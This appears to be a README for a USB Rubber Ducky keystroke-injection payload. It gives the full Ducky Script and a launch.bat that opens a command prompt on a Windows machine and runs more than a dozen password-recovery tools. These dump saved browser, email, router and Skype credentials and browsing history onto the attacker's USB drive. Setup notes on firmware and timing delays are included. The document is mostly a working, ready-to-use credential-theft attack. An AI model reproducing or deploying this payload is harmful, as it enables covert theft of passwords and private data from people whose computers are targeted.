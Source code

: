 The following is a modified version of Mr Gray's password recovery script for the USB rubber ducky. Modifications include googleKnowsBest's ducky drive detection if the drive is labeled "DUCKY", which has been coded to work on all current windows OS's, and a modification to run from a folder on the ducky labeled "MrGraysRubberHacks". This payload has also been tweaked to be a little more forgiving to errors, and as such has some more delays. Forgiving as this script is, it may need customized delays depending on the users requirements. The payload is designed for c_duck_v2_S001.hex, and c_duck_v2_S002.hex firmware types. Wait for the ducky's drive to mount, and then press the button to launch this payload. This payload may also be launched using a binary duck attack in which you use stock duck firmware, linked to a mass storage device via a 2 port USB cable splitter. This method would mount the mass storage almost instantaneously which would negate the need to wait for the ducky's mass storage to mount. 
The forum page is located here: 
http://forums.hak5.org/index.php?/topic/29067-payload-mr-grays-password-history-recovery-tool-for-rubber-ducky/

```
ENCODE: 

DEFAULT_DELAY 25
REM File: MrGraysRubberHacks.txt
REM Target: WINDOWS VISTA/7
DELAY 1000
ESCAPE
CONTROL ESCAPE
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 150
STRING for /f "tokens=3 delims= " %A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%A:)
ENTER
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
STRING %DUCKYdrive%\launch.bat
ENTER

LAUNCH.BAT file: 

for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)

REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks

start %DUCKYdrive%\WebBrowserPassView.exe /stext %DUCKYdrive%\WebBrowserPassView.txt
start %DUCKYdrive%\SkypeLogView.exe /stext %DUCKYdrive%\SkypeLogView.txt
start %DUCKYdrive%\RouterPassView.exe /stext %DUCKYdrive%\RouterPassView.txt
start %DUCKYdrive%\pspv.exe /stext %DUCKYdrive%\pspv.txt
start %DUCKYdrive%\PasswordFox.exe /stext %DUCKYdrive%\PasswordFox.txt
start %DUCKYdrive%\OperaPassView.exe /stext %DUCKYdrive%\OperaPassView.txt
start %DUCKYdrive%\mspass.exe /stext %DUCKYdrive%\mspass.txt
start %DUCKYdrive%\mailpv.exe /stext %DUCKYdrive%\mailpv.txt
start %DUCKYdrive%\iepv.exe /stext %DUCKYdrive%\iepv.txt
start %DUCKYdrive%\ChromePass.exe /stext %DUCKYdrive%\ChromePass.txt
start %DUCKYdrive%\ChromeHistoryView.exe /stext %DUCKYdrive%\ChromeHistoryView.txt
start %DUCKYdrive%\BulletsPassView.exe /stext %DUCKYdrive%\BulletsPassView.txt
start %DUCKYdrive%\BrowsingHistoryView.exe /stext %DUCKYdrive%\BrowsingHistoryView.txt
```

If you wish to remove the part of the script that contains the code to the folder MrGraysRubberHacks, and instead have all output go to the root of the drive delete the following items:

```
ENCODE: 

...
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
...
```

```
LAUNCH.BAT file: 

...
REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
...
```